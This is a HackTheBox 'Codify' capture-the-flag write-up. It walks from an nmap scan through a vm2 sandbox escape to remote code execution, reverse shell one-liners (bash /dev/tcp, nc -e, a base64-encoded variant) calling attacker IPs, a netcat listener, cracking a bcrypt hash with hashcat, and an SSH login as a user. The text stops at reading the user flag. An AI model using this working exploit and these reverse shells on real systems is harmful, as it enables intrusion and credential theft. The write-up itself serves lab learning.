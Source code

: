 ```yaml
---
layout: post
title: HackTheBox Codify Writeup
# subtitle: There's lots to learn!
gh-repo: github.com/thirt33n/thirt33n.github.io
gh-badge: [star, fork, follow]
tags: [htb,writeup,seasonal]
comments: true
---
```


## Codify
![Codify](../assets/img/Codify.png){: .mx-auto.d-block :}


The IP provided is :

```
10.10.11.229 
```

### Enumeration

Running nmap on the machine provides the following results:
```bash
$ sudo nmap -sC -sV 10.10.11.229     
# Nmap 7.92 scan initiated Fri Nov 10 01:25:34 2023 as: nmap -sC -sV -o nmap_results.txt 10.10.11.239
Nmap scan report for 10.10.11.239
Host is up (0.061s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov 10 01:25:50 2023 -- 1 IP address (1 host up) scanned in 15.89 seconds
```

From the scan we see that port 22 is open for ssh, which we come to later, port 80 and port 3000 both runnning an HTTP service with 3000 being a Nodejs application.


There is also a link for **codify.htb** shown in the scan result, this is added to the **/etc/hosts** file.

Opening the website in a browser shows us that it is an application that allows users to run Nodejs code right on the browser. This may potentially lead to an RCE.

http://codify.htb/about - Tells us that it is running the **vm2** library to run the code on the browser. Checking for any known vulnerabilities in this library we find this
[**vm2 sandbox escape**](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) .



### Exploit
```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('cat /etc/passwd');
}
`
console.log(vm.run(code))


```
This enables us to run arbitrary code on the system even though some libraries like "child_processes" is blacklisted by the application. Thereby allowing us to bypass the sandbox environment.

Running
```bash
cat /etc/passwd
```
in the exploit Gives us the following response:
```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
fwupd-refresh:x:114:122:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false


```

from this we can see that there are 3 users in the system:
root,joshua,svc.

We are currently logged in as svc. (Run the **whoami** command)

Now we need to have a reverse shell to perform privilege escalation and to retrieve the flags.

However at this point, I couldnt get any of the typical reverse shell command to work properly such as these,

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

```bash
nc -e /bin/sh 10.0.0.1 1234
```

That's when I ran the **ps aux** command on the code editor page with the exploit that I noticed something,

![ps aux](../assets/img/hack_inside_hack.png) 


```bash
echo
YmFzaCAtaSA+JIAvZGV2L3RjcC8xMC4xMC4xNi4yNi80NDQOIDA+JjE=|base64 -d|bash -i
```
This command caught my eye, decoding the base64 encoded text revealed this:

```bash
$ echo YmFzaCAtaSA+JIAvZGV2L3RjcC8xMC4xMC4xNi4yNi80NDQOIDA+JjE=|base64 -d
bash -i >& /dev/tcp/10.10.16.26/444 0>&1 
```

I am not sure how this command was being run in this system, perhaps it was run by another player on the box, but this gave me the idea and used the same method by altering the IP address and port to suite my system and sent this command using the exploit:

```bash
$ echo "bash -i >& /dev/tcp/10.10.16.22/8080 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS84MDgwIDA+JjEK
```
Make sure to use your IP and preffered port for the above command.

Set up your netcat listener using the above used port for capturing the reverse shell:

```bash
nc -lnvp 8080
```

Final exploit to gain RCE:


```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS84MDgwIDA+JjEK | base64 -d | bash -i');
}
`
console.log(vm.run(code))
```

Running this will get you the reverse shell as svc user.

Moving to the  /var/www/contact directory shows us these:


```bash
svc@codify:/var/www/contact$ ls
ls
index.js
package.json
package-lock.json
templates
tickets.db

```

***tickets.db looks interesting and it does contain hashed password for the joshua user.***

![tickets db](../assets/img/codify_inside.png)


```$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2```

This is an example of the BCRYPT hash since it begins with the "$2a" prefix. We use tools like hashcat or john the ripper to crack it.

```ps
hashcat -m 3200 -a 0 hash rockyou.txt
```

![Cracked passwprd](../assets/img/password_crack.png)


The password was cracked and it seems that the password is:

**spongebob1**

We use this to login as joshua and gain the user flag !

```bash
$ ssh joshua@codify.htb -p 22                       
joshua@codify.htb' password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
Last login: Sun Nov 12 07:14:17 2023 from 10.10.16.15'

joshua@codify:~$ cat user.txt
```



